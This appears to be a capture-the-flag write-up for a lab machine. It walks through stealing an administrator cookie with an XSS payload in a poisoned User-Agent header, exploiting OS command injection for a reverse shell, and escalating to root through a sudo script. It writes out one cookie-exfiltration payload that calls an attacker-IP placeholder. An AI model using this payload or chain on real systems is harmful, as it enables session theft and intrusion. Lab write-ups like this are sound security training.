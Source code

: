 # PORT SCAN
* **22** &#8594; SSH
* **5000** &#8594; HTTP

<br><br><br>

# ENUMERATION & USER FLAG
The web port is really really simple

![cbb519fc9c39bc7ffb78f97f69e2986e.png](img/cbb519fc9c39bc7ffb78f97f69e2986e.png)

![0e3f9eef798ba3d925c1e0b852504dba.png](img/0e3f9eef798ba3d925c1e0b852504dba.png)

These thing seems pretty useless but with some enumeration I came across `/dashboard` that unlucky return a <u>401 error</u>.

![482c9f17ad505806e968ff984f28e572.png](img/482c9f17ad505806e968ff984f28e572.png)

Coll stuff, using burp to intercept the request we can see an interesting cookie is sent!

![fb86d8fb3e930e814e6b117b253c52c8.png](img/fb86d8fb3e930e814e6b117b253c52c8.png)

Strange cookie...using the Burp Decoder we can se the plaintext with base64 decode

![2b6a962ab7e3c48d93c84318d85c9156.png](img/2b6a962ab7e3c48d93c84318d85c9156.png)

Cool stuff, now I tried to send a simple **img tag** that point to my attacker http server to check if some XSS is possible but the creator of the box were pretty aware of this possibility....

![2912a7d295afff422dfd0901099ad353.png](img/2912a7d295afff422dfd0901099ad353.png)

My mind was tickling about poisoning one of the header records with the same malicious IMG tag, redo the detection with same payload and see the results. Luckly it worked

![ee7d4ef858f5b9aaf0b918fb9e637e76.png](img/ee7d4ef858f5b9aaf0b918fb9e637e76.png)

This is cool now the plan s simple, since this report would be seen by an administrator (and I assume would be seen inside the browser) we can try to inject inside the user agent an XSS payload like this `<img src='http://[ATTK_IP]/?c='+document.cookie>`. To intercept the request I use a simple PHP server (otherwise we would not be able to see the cookies), after I sent the poisoned request it took a few minutes before receive the request!

![7b1dc80d244175f92e1d090651789100.png](img/7b1dc80d244175f92e1d090651789100.png)

Now I can use this cookie to reach the `/dashboard`

![aeaf6e97fdb6dbe59f7137abfa952ddb.png](img/aeaf6e97fdb6dbe59f7137abfa952ddb.png)

I have played a little bit with the <u>health report</u> request and found a OS injection vulnerability

![a60a97f954bdaaa23833e805d0d5b119.png](img/a60a97f954bdaaa23833e805d0d5b119.png)

With this we are able to get a reverse shell and read the first flag

![b09f531d47207528574ab6deda71a3b7.png](img/b09f531d47207528574ab6deda71a3b7.png)

<br><br><br>

# PRIVILEGE ESCALATION

Even if we have control of a service user a special sudo permission on a costum bash script is allowed to be used

![b66766c03926984939822dc97fee291f.png](img/b66766c03926984939822dc97fee291f.png)

The bash script just check some basics system health value but a small section of the code is interesting because execute a SH script in the same directory the command is run called `initdb.sh`

![39d3dbbdfb7904d4270db07b5b982a29.png](img/39d3dbbdfb7904d4270db07b5b982a29.png)

Nothing more to say we have a way to execute OS command as root, I create a one-liner script that just spawn an interactive shell process that we can use it as root, after running back the costum script with SUDO we can read the flag!

![b2b7dd933913545171beb1719922fe0f.png](img/b2b7dd933913545171beb1719922fe0f.png)
